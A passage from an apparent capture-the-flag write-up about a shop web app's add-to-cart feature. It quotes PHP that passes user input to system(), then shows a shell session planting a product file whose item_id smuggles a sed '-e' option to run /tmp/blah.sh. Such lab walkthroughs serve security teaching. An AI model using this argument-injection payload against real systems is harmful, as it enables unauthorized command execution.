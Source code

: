 So this happens because our sketchy item id needs be present in the cart file for our user, and it's not, we only have a normal item id in there, e.g '1'. but in theory it would have worked if that was the case, so can we control what gets written to that file? Yes we can:
```php
    if(checkValidItem("{$STORE_HOME}product-details/{$item_id}.txt")) {
        if(!file_exists("{$STORE_HOME}cart/{$user_id}")) {
            system("echo '***Hat Valley Cart***' > {$STORE_HOME}cart/{$user_id}");
        }
        system("head -2 {$STORE_HOME}product-details/{$item_id}.txt | tail -1 >> {$STORE_HOME}cart/{$user_id}");
        echo "Item added successfully!";
    }
    else {
        echo "Invalid item";
    }
}
```

Looking at the code for the add to cart, it takes the item id from our payload and copies the content of the filename corresponding to the item id we provided, those files are in `/var/www/store/product-details` and we have write access in there, so let's go write a new product id file ad id 4 for instance, and put our sketchy item id in there:
```bash
-bash-5.1$ pwd
/var/www/store/product-details
-bash-5.1$ ls -la
total 20
drwxrwxrwx 2 root root 4096 Jan 16 04:00 .
drwxr-xr-x 9 root root 4096 Oct  6 01:35 ..
-rw-r--r-- 1 root root   99 Jan 16 04:00 1.txt
-rw-r--r-- 1 root root   98 Jan 16 04:00 2.txt
-rw-r--r-- 1 root root   97 Jan 16 04:00 3.txt
-bash-5.1$ cp 3.txt 4.txt
-bash-5.1$ vi 4.txt
-bash-5.1$ cat 4.txt
***Hat Valley Product***
item_id=1' -e "1e/tmp/blah.sh" /tmp/blah.sh '&item_name=Straw Hat&item_brand=Sunny Summer&item_price=$70.00
```

Now we can intercept a cart add and substitute the real item id with our newly created file number, 4 in this case  
![sketchy.png](sketchy.png)  
